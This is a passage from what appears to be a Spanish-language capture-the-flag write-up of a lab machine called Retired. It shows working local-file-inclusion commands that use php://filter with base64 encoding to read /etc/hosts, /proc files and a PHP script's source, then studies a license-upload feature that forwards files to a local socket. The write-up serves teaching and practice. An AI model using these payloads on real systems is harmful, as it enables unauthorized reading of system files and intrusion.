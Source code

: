```
└─$ for port in $(curl -s http://10.10.11.154/index.php?page=php://filter/convert.base64-encode/resource=/proc/net/tcp | base64 -d | awk '{print $2}' | awk '{print $2}' FS=":"); do echo "$((16#$port))" | short -u | tr "\n" "," | sed "s/,/, /g" ; done
80, 22, 1337

# Direcciones IP
└─$ curl -s http://10.10.11.154/index.php?page=php://filter/convert.base64-encode/resource=/proc/net/fib_trie | base64 -d | grep "LOCAL" -B 1 | grep -oP '\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}' | sort -u | tr "\n" "," | sed "s/,/, /g"
10.10.11.154, 127.0.0.1,

# Dominios
└─$ curl -s http://10.10.11.154/index.php?page=php://filter/convert.base64-encode/resource=/etc/hosts | base64 -d | grep -P '\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}' | awk '{print $2}' | grep -v "localhost" | tr "\n" "," | sed "s/,/, /g"
bullseye, retired,

# Procesos en ejecución (lo meto en un archivo porque es mucho (56 lineas))
└─$ curl -s http://10.10.11.154/index.php?page=php://filter/convert.base64-encode/resource=/proc/sched_debug | base64 -d | grep -P "\d" | grep -E "^ S|^ I" | grep -vE "scsi|system|kworker|card|irq|dbus|rcu" | awk '{print $2 " -> " $3}' > tee processes
```

----------------------------
# Part 3: Descubriendo un binario

La página beta.html dice tal que así:
![retired2](https://user-images.githubusercontent.com/96772264/213868940-5b01c97b-03b1-40c2-a0b3-c0a8dc68c675.PNG)

```
Actualmente desarollando para EMUEMU (lo busque en google pero no hay nada). Si nos compraste una consola OSTRICH 
y quieres participar en el siguiente paso puedes activar tu licencia con la app "activate_license"
Un archivo de licencia contiene una llave de 512 bits que está en el paquete de la consola OSTRICH.
```
Generamos una llave con openssl ```openssl genrsa -out license.key 512``` y la subimos
```
/POST a /activate_license.php || datos -> name="licensefile"; filename="license.key" || contenido -> la llave
```
Nos redirige a /activate_license.php que no devuelve ningun output. Pero podemos ver dicho archivo con el LFI.
```console
└─$ curl -s http://10.10.11.154/index.php?page=php://filter/convert.base64-encode/resource=activate_license.php | base64 -d

<?php
if(isset($_FILES['licensefile'])) {   // Si el archivo que se sube es 'licensefile'
    $license      = file_get_contents($_FILES['licensefile']['tmp_name']);  // $license = "license.key"
    $license_size = $_FILES['licensefile']['size'];	// $license_size = 512
    $socket = socket_create(AF_INET, SOCK_STREAM, SOL_TCP); // crea un socket
    if (!socket_connect($socket, '127.0.0.1', 1337)) {      // Que escucha en el localhost en el puerto 1337
        echo "error socket_connect()" . socket_strerror(socket_last_error()) . "\n";}
    socket_write($socket, pack("N", $license_size)); // empaqueta el tamaño en un ulong 32 bits
    socket_write($socket, $license);  // escribe en el socket ese "license.key" con su tamaño
    socket_shutdown($socket); socket_close($socket);}?> // cierra el socket.
```
Es decir tenemos un socket que le pasa a un programa nuestro archivo ¿Pero a cual?. Podemos tirar de ese archivo que creamos antes con el LFI...
```console
└─$ cat proceses | grep -E "activate|license"
```